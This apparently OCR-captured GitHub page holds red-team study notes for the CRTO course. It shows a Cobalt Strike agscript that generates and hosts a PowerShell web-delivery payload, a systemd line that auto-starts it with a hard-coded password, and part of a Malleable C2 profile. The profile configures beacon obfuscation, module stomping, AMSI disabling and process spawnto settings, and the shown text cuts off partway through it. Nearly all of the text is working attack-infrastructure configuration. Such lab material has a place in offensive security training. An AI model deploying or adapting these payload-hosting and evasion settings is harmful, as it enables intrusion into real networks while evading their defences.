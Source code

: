     Enable Hosting of Web Delivery Payloads via agscript client in headless mode

$ cat host_payloads.cna

# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}

# Add below command in "/etc/systemd/system/teamserver.service" file

ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'

    Custom Malleable C2 Profile for CRTO

# Custom C2 Profile for CRTO (Modified by an0nud4y)
set sample_name "Dumbledore";
set sleeptime "2000";
set jitter    "20";
set useragent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36";
set host_stage "true";

stage {
        set userwx "false"; #Allocate Beacon DLL as RW/RX rather than RWX.
        set cleanup "true"; #Free memory associated with reflective loader after it has been loaded
        set obfuscate "true"; # Load Beacon into memory without its DLL headers
        set module_x64 "xpsservices.dll"; #Load DLL from disk, then replace its memory with Beacon.
}

post-ex {
        set amsi_disable "true";
        # Malleable C2 amsi_disable does not applies to Cobalt Strike Jump Command (psexec_psh , winrm and winrm64).
				# Read this blog - https://offensivedefence.co.uk/posts/making-amsi-jump/
				
				set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
				#set spawnto_x64 "%windir%\\System32\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
				